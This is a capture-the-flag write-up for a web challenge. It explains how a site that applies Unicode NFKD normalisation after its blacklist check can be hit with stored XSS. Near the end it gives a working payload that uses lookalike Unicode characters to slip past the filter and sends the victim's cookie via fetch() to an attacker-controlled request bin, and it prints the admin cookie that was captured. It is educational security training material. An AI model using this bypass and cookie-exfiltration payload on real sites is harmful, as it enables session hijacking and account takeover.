 # Challenge
A bunch of university students want to start a company and hired some young university students. I wonder if they paid any attention to security.  
  
# Setup
Website: https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf  
  
# Solution
At the bottom of the login page of the website, we see a link to the developer portal. When we visit `/dev`, we see that the website "is still under construction", and it instead directs us to either `/devchat` or `/admin`. Visiting `/admin` redirects us to `/login` with the flashed message `Not allowed.` at the top of the page. This indicates we need to have some admin "cookie" set in order to proceed.  
  
Visiting `/devchat` instead shows us messages between developers, which give us useful information:
<ol>
  <li> "For now I have set a static cookie, but Ill fix that up on Monday." -> confirms our theory about the admin cookie </li>
  <li> "bruh... you basically just added a vulnerability, why tf are you normalizing after checking the bad characters" -> upon searching for "normalising characters", we see that this probably refers to decomposing Unicode characters into constituent, or smaller parts/a part. </li>
  <li> "Only used it once for a uni project this semester, NFKD I think it was" -> NKFD is a Unicode normalisation scheme, so this solidifies the idea of a normalising user inputted characters. The fact that the developer is normalising after checking for some "bad" payload indicates that to exploit this website, we should "smuggle" these bad strings through Unicode characters which are only unpackaged after input validation, like a Trojan horse. </li>
  <li> "Also the about me section was all html escaped making it look ugly, need to try and find a fix for that as well. It looks very ugly." -> this was sent after a developer said the page was autoescaped because values were inputted raw (which would introduce an XSS vulnerability), however now that that feature seems to be raw. This indicates we need to construct an XSS attack which sends a user's cookie to some proxy, report the error to the admins, check the proxy and retrieve their cookie </li>
</ol>
To test our idea of the XSS, we can register an account, log into it and view our profile page. After entering `" hidden value="` into the "About me" field and updating our information, we see that the field disappears:
[!About me field is gone](disap.png)
However, if we try to enter `<script>`, we see that the website detects a "hacking attempt":
[!Hacking attempt](hackattempt.png)
Not only does this occur for the angle brackets but also simply the string "script". This is where our knowledge of the NFKD normalisation algorithm comes from: we can enter a string which has alternative "Unicode" versions of the angle brackets and one of the letters of "script" to bypass the XSS detection and then have the payload be decomposed with NFKD. Our final payload looks like this (I used RequestBin as the proxy):
```
"＞＜scᴿipt＞ fetch(`https://[my_bin].x.pipedream.net/c=${document.cookie}`)＜/scᴿipt＞
```
Then, after retrieving the cookie **sup3rs3cur34dm1nc00k13**, we can set it on our browser and visit the `/admin` page to read the flag.  
Flag: **DUCTF{_un1c0de_bypass_x55_ftw!}***
